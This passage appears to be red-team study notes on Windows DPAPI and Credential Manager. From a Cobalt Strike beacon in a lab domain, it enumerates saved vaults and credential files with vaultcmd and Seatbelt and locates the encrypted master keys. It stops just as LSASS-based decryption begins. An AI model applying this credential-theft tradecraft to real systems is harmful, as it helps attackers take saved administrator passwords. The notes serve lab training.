 ```yaml
---
description: 09/17/2025
---
```


# Data Protection API (DPAPI)

## Motivation/What is it?

The Data Protection API (DPAPI) is a component built into Windows that provides a means for encrypting and decrypting data "blobs".

It uses cryptographic keys that are tied to either a specific user or computer and allows both native Windows functionality and third-party applications to protect/unprotect data transparently to the user.

DPAPI is used by the Windows Credential Manager to store saved secrets such as RDP credentials, and by third-party applications like Google Chrome to store website credentials.

## Credential Manager

Upon initially reading up about the Windows Credential Manager may end up being a bit confusing at first.

You're going to find both terms "Vaults" and "Credentials". So, what's the difference?

### Vaults

It essentially holds records of encrypted credentials and a reference to the encrypted blobs.

Windows has two vaults:

1. Web Credentials (for storing browser creds)
2. Windows Credentials (for storing credentials saved by `mstsc`, etc.)

### Credentials

This is the actual encrypted blob(s).

### Enumerating User's Vaults

To achieve this, we can use the <mark style="color:yellow;">`vaultcmd`</mark> tool.

```
beacon> run vaultcmd /list

Currently loaded vaults:
	Vault: Web Credentials
	Vault Guid:4BF4C442-9B8A-41A0-B380-DD4A704DDB28
	Location: C:\Users\bfarmer\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28

	Vault: Windows Credentials
	Vault Guid:77BC582B-F0A6-4E15-4E80-61736B6F3B29
	Location: C:\Users\bfarmer\AppData\Local\Microsoft\Vault

beacon> run vaultcmd /listcreds:"Windows Credentials" /all

Credentials in vault: Windows Credentials

Credential schema: Windows Domain Password Credential
Resource: Domain:target=TERMSRV/sql-2.dev.cyberbotic.io
Identity: SQL-2\Administrator
Hidden: No
Roaming: No
Property (schema element id,value): (100,2)
```

Another is to use <mark style="color:yellow;">`seatbelt`</mark> along with the <mark style="color:yellow;">`-group=user`</mark> parameter, or more specifically, the <mark style="color:yellow;">`WindowsVault`</mark> parameter!

```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsVault

====== WindowsVault ======

  Vault GUID     : 4bf4c442-9b8a-41a0-b380-dd4a704ddb28
  Vault Type     : Web Credentials
  Item count     : 0

  Vault GUID     : 77bc582b-f0a6-4e15-4e80-61736b6f3b29
  Vault Type     : Windows Credentials
  Item count     : 1
      SchemaGuid   : 3e0e35be-1b77-43e7-b873-aed901b6275b
      Resource     : String: Domain:target=TERMSRV/sql-2.dev.cyberbotic.io
      Identity     : String: SQL-2\Administrator
      PackageSid   : (null)
      Credential   : 
      LastModified : 9/6/2022 9:12:12 AM
```

Based on this, we now know that the user has saved credentials for the local administrator account on <mark style="color:yellow;">`SQL-2`</mark>. The encrypted credentials themselves are stored in the users' <mark style="color:yellow;">`\Credentials`</mark> directory.

```
beacon> ls C:\Users\bfarmer\AppData\Local\Microsoft\Credentials
[*] Listing: C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 468b     fil     09/06/2022 10:34:22   6C33AC85D0C4DCEAB186B3B2E5B1AC7C
 10kb     fil     08/30/2022 08:42:59   DFBE70A7E5CC19A398EBF1B96859CE5D
```

<mark style="color:yellow;">`seatbelt`</mark> can also enumerate them using the <mark style="color:yellow;">`WindowsCredentialFiles`</mark> parameter.

```
beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Release\Seatbelt.exe WindowsCredentialFiles

====== WindowsCredentialFiles ======

  Folder : C:\Users\bfarmer\AppData\Local\Microsoft\Credentials\

    FileName     : 6C33AC85D0C4DCEAB186B3B2E5B1AC7C
    Description  : Local Credential Data

    MasterKey    : bfc5090d-22fe-4058-8953-47f6882f549e
    Accessed     : 9/6/2022 10:50:44 AM
    Modified     : 9/6/2022 10:50:44 AM
    Size         : 468

    FileName     : DFBE70A7E5CC19A398EBF1B96859CE5D
    Description  : Local Credential Data

    MasterKey    : bfc5090d-22fe-4058-8953-47f6882f549e
    Accessed     : 9/6/2022 10:50:44 AM
    Modified     : 9/6/2022 10:50:44 AM
    Size         : 11036
```

{% hint style="info" %}
As of 09/17/2025, as far as I'm aware, there is no way to know which credential blob belong to which vault; and by extension, if a vault has multiple entries, which credential blob corresponds to which. This just ends with us having to decrypt each one in turn.
{% endhint %}

<mark style="color:yellow;">`seatbelt`</mark> also provides the GUID of the master key used to encrypt the credentials.

The master keys are stored in the users' roaming "Protect" directory. But guess what... they're also encrypted.

```
beacon> ls C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104
[*] Listing: C:\Users\bfarmer\AppData\Roaming\Microsoft\Protect\S-1-5-21-569305411-121244042-2357301523-1104\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 740b     fil     08/15/2022 17:34:31   bfc5090d-22fe-4058-8953-47f6882f549e
 928b     fil     08/15/2022 17:34:31   BK-DEV
 24b      fil     08/15/2022 17:34:31   Preferred
```

_<mark style="color:yellow;">**So we must decrypt the master key first to obtain the actual AES128/256 encryption key and then use that key to decrypt the credentialed blob**</mark>_.&#x20;

**There are two ways of doing this:**

1. _**The first is only possible is you have local admin access on the machine and if the key is cached in LSASS**_. _<mark style="color:red;">**It will not be in the cache if the user has not recently accessed/decrypted the credential**</mark>_.

